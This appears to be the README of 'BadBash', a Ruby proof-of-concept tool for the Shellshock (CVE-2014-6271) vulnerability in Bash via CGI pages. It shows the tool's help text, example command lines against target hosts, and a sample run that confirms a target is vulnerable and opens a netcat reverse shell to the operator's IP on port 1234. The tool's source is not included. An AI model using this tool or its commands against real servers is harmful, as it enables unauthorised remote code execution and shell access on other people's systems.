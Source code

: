 BadBash
=======

CVE-2014-6271 (ShellShock) RCE PoC tool 

=======
BadBash is a CVE-2014-6271 RCE exploit tool. The basic version only checks for the HTTP CGI site and only provides netcat reverse shell on port 1234.

Developer : Andy Yang 
Version : 0.1.0 
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby BadBash.rb  -h

BadBash - CVE-2014-6271 RCE tool by Andy Yang
Basic version only checks for HTTP site
Basic version only provides netcat reverse shell on port 1234


EXAMPLE USAGE:

     ./BBash.rb  -t 'www.target.com/cgi-folder/cgi.sh' -d '127.0.0.1'
     ./BBash.rb  -t '10.0.0.1/cgi-folder/cgi.sh' -d '127.0.0.1'
    -t, --Target CGI path            Full path of CGI page
    -d, --Destination IP             Your IP address that listen to an inbound connection
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby BadBash.rb -t '172.16.235.140/cgi-bin/Andy.sh' -d '172.16.189.1'

[Info]     Checking if the target is vulnerable........

[Info]     This may take up to 10 seconds........

[Info]     Target is vulnerable!!!

[Info]     Please use NC to listen on port 1234 for reverse shell..........

[Info]     Exploiting for a reverse shell to connect 172.16.189.1:1234 via netcat ..........



